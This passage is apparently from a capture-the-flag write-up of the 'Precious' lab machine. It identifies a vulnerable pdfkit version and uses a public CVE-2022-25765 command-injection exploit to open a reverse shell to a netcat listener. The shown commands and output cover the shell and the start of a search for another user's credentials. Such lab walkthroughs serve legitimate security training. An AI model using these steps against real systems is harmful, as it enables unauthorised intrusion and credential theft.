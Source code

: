 From the `exiftool` we get that the server generates the pdf's using `Generated by pdfkit v0.8.6` .Since we have the version we can look for an exploit.  
The version is vulnerable to `Command Injection` [CVE-2022-25765](https://www.exploit-db.com/exploits/51293) 
 
## Exploitation

 Run the `netcat` on your host:
```
$ nc -lvnp 1337
```

Run the exploit :
```sh
 python3  CVE-2022-25765.py -t http://precious.htb/ -a 10.10.16.11 -p 9001
[*] Input target address is http://precious.htb/
[*] Input address for reverse connect is 10.10.16.11
[*] Input port is 9001
[!] Run the shell... Press Ctrl+C after successful connection

```

On our nc :
```sh
 nc -nlvp 9001
listening on [any] 9001 ...
...[snip]...
ruby@precious:/var/www/pdfapp$ whoami
whoami
ruby
ruby@precious:/var/www/pdfapp$ id
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
ruby@precious:/var/www/pdfapp$ 

```

## Lateral movement
The web shell drops us on the app directory but upon doing some enumerations we get nothing much other than the inner functioning of the application.  
But upon getting to the home directory of our current user `Ruby` we get  a config file that contains `henry's` credntials.
```sh
ruby@precious:/var/www$ cd 
cd 
ruby@precious:~$ ls
ls
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 May  1 01:20 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 May  1 01:20 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle
cd .bundle
ruby@precious:~/.bundle$ ls -la
ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 May  1 01:20 ..
```